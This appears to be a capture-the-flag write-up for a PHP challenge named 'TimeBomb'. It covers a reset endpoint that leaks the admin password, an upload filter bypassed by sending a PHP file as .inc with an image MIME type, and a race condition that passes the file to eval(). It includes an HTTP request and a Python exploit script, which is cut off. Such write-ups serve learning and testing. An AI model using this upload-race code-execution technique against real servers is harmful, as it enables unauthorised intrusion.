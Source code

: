 
Started fuzzing query parameters on reset.php and found it takes a `token` parameter. So I sent `/reset.php?token=lol` and it just handed me the admin password: `StR0ngAdM!nP@ssw0rd`. The token value didn't matter at all - you just need the parameter to exist. Pretty solid security right there.

With the admin password, I logged in and got redirected to `/admin` with two new endpoints: `upload_plugin` and `run_plugin`. The upload one was picky about MIME types - only accepted `image/png`. I also fuzzed for extensions and found that `png`, `jpg`, and `inc` are accepted. When you upload something, it returns a hash + extension that you could use with `run_plugin`.

I uploaded a test image and tried to run it using `run_plugin`, but got this error:

request:
```
GET /run_plugin.php?name=x.png HTTP/1.1
Host: 34.9.3.251:8887
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
User-Agent: python-httpx/0.28.1
Cookie: PHPSESSID=a8ad3689f52238c44e237cb5dce1381b

```

response:
```
Warning: readfile(/var/www/html/uploads/plugins/232456fj45034.png): Failed to open stream: No such file or directory
```

Two things stood out: the app uses `readfile()` to process files, and where the hell did my uploaded file go? It just vanished into thin air. Also noticed that there must be another operation happening after `readfile()` since readfile alone doesn't "run" anything.

That's when the challenge name "TimeBomb" finally made sense.  So I had this idea what if I could call `run_plugin` fast enough before the file disappears?

Wrote a quick async script to upload and immediately run the file, and boom! The error message changed, showing that the file content gets read by `readfile()` and then passed to `eval()`. Classic PHP RCE setup right there.

Now I needed a payload. Tried various functions to read the flag but a bunch were filtered. Then I realized  why not just use `readfile()` since that's what the app is already using internally? Sometimes the simplest solution is staring you right in the face.

```python
import httpx
import asyncio
import re

c = httpx.AsyncClient(base_url="http://34.9.3.251:8887", proxy="http://localhost:8081")

async def login():
    r = await c.post(
        "/login.php", data={"email": "admin", "password": "StR0ngAdM!nP@ssw0rd"}
    )
    assert r.status_code == 302, "login failed"

async def get_flag():
    payload = b"<?php readfile('flag.php');"
    r = await c.post(
        "/plugin_upload.php",
        files={"file": ("flag.inc", payload, "image/png")},
    )
    if m := re.search("Uploaded as: (.+)", r.text):
        filename = m.group(1).strip()
        print(f"[+] Uploaded as: {filename}")
        r = await c.get(f"/run_plugin.php?name={filename}")
        print("FLAG CONTENT:")
```